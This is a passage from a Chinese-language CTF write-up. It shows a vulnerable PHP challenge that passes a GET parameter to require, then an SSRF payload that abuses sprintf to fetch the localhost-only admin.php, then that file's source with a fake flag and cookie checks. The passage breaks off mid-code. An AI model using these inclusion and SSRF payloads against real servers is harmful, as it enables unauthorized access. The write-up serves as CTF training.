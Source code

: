```php
        die("禁止套娃");
    }

    else{
        if(preg_match("/home$/i", $_GET['file']) or preg_match("/system$/i", $_GET['file'])){
            $file = $_GET['file'].".php";
        }
        else{
            $file = $_GET['file'].".fxxkyou!";
        }
        echo "现在访问的是 ".$file . "<br>";
        require $file;
    }
} else {
    echo "<script>location.href='./home.php?file=system'</script>";
}
```

审查代码后，可以了解我们不能直接得到flag.php等带有flag字样的文件，不能在home中得到admin文件，那么试着在system中获取admin文件。详情看代码中的注释。

```bash
q1=a&q2=http://127.0.0.1/admin.php?b=&q3=GET%s%
```

在`system`中，通过这样的payload，我们获得了admin的源码。

```php
<?php
error_reporting(0);
session_start();
$f1ag = 'f1ag{s1mpl3_SSRF_@nd_spr1ntf}'; //fake

function aesEn($data, $key)
{
    // 加密函数
    $method = 'AES-128-CBC';
    $iv = md5($_SERVER['REMOTE_ADDR'],true);
    return  base64_encode(openssl_encrypt($data, $method,$key, OPENSSL_RAW_DATA , $iv));
}

function Check()
{
    if (isset($_COOKIE['your_ip_address']) && $_COOKIE['your_ip_address'] === md5($_SERVER['REMOTE_ADDR']) && $_COOKIE['y1ng'] === sha1(md5('y1ng')))
        // 这两个cookie不能丢
        return true;
    else
        return false;
}

if ( $_SERVER['REMOTE_ADDR'] == "127.0.0.1" ) {
    highlight_file(__FILE__);
} else {
    echo "<head><title>403 Forbidden</title></head><body bgcolor=black><center><font size='10px' color=white><br>only 127.0.0.1 can access! You know what I mean right?<br>your ip address is " . $_SERVER['REMOTE_ADDR'];
    # 原来如此，这句话无论如何会存在。
}


$_SESSION['user'] = md5($_SERVER['REMOTE_ADDR']);

if (isset($_GET['decrypt'])) {
    $decr = $_GET['decrypt'];
    if (Check()){
```